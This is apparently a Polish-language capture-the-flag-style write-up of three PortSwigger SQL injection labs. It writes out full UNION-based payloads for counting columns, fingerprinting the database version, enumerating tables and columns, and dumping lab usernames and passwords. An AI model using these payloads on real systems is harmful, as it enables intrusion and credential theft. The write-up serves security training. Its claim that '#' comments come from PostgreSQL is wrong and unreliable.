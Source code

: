 Laboratorium: Wstrzyknięcie SQL UNION attack, pobieranie wielu wartości w jednej kolumnie

Pierwszym krokiem było określenie liczy kolumn w przechwyconym pakiecie.
``` ' UNION SELECT NULL-- ```
I zwiększamy wartość NULL po przecinku NULL,NULL-- do momętu aż uzyskamy HTTP/2 200 OK 
Następnie jeśli już uskamy tą wartość, musimy dowiedzieć się, która z tych kolumn zawiera tekst, w tym przypadku była to druga kolumna, określiłem to za pomocą ``` ' UNION SELECT NULL,'abc'-- ```
W kolejnym kroku musimy utworzyć zapytanie wiemy, że baza danych zawiera tabelę users z kolumniami username,password. Oto zapytanie.
``` ' UNION SELECT NULL, username || '~' || password FROM users-- ```
Wartość NULL jest tutaj zapisana ponieważ wiemy, że pierwsza tabela nie zawiera tylko druga. dzięki temu zapytaniu uzyskałem zrzut całe bazy danych.
```
                            <th>wiener~xkhstq2rd73ukf1yddjo</th>
                        </tr>
                        <tr>
                            <th>administrator~2nwssjbzicownbljqt8w</th>
                        </tr>
                        <tr>
                            <th>carlos~qvjff1y3mqjqk784v7lc
```

Laboratorium: atak wtryskowy SQL, zapytanie o typ bazy danych i wersję w MySQL i Microsoft

Pierwszym krokiem było określenie liczby kolumn w przechwyconym pakiecie.
``` ' UNION SELECT NULL# ```
Musimy pamiętać, że w różnych bazach danych określa się komentarze zupełnie inaczej.
Poniżej znajduje się pare przykładów, jak komentować:

![obraz](https://github.com/Anogota/PortSwiggger-SQLi/assets/143951834/d6f2c43b-bec8-4207-847f-bf0e923befd8)

W tym przypadku były dwie kolumny.
``` ' UNION SELECT NULL,NULL# ```
Kolejnym krokiem było zidentyfikowane, która kolumna zawiera tekt, ponownie oby dwie zawierały tekst:
``` ' UNION SELECT 'qwe','qwe'# ```
Następnie jeśli już wiemy wszystko wystarczy odgadnąć która baza danych działa na serwerze. Udało mi się dowiedzieć za pomocą tego zapytania:
``` ' UNION SELECT @@version, NULL# ```
Odkryłem również, że działa to ``` ' UNION SELECT version(), NULL# ``` co wydawało mi się bardziej logiczne, ponieważ komentarz # pochodzi od PostgreSQL

Laboratorium: Zaatakowanie wtrysku SQL, wymienianie zawartości bazy danych w bazach danych innych niż Oregon
Pierwszym krokiem było określenie liczby kolumn w przechwyconym pakiecie
``` ' UNION SELECT NULL,NULL-- ```
Dowiedziałem się, że są dwie. Kolejnym krokiem było zidentyfikowane, która kolumna zawiera tekt, ponownie oby dwie zawierały tekst:
``` ' UNION SELECT 'qwe','qwe'-- ```
Następnie jeśli już wiemy wszystko co jest nam potrzebne musimy zrzucić wszystkie nazwy baz danych.
``` ' UNION SELECT table_name, NULL FROM information_schema.tables-- ```
Ujrzałem ciekawą i zarazem nietypową baze danych. ```users_ulaacr```
Następnie musimy zobaczyć jakie kolumny znajdują się w tej bazie danych.
``` ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ulaacr'-- ```
Dzięki temu dowiedzieliśmy się o dwóch ciekawych kolumnach.
```
username_yiyraf
password_sgsccz
```
Następnie musimy wyodrebnić z nich nazwy użytkowników i hasła:
``` ' UNION SELECT username_yiyraf,password_sgsccz FROM users_ulaacr-- ```
Dzięki temu uzyskaliśmy zrzut haseł i nazw użytkoników
```
<b1>
carlos
	cj1w2piec8pdfjtp2a76
wiener
	vib0xw0oz6v4y98074s0
administrator
	qo33srs73uxgafa3f08o
</b1>
```
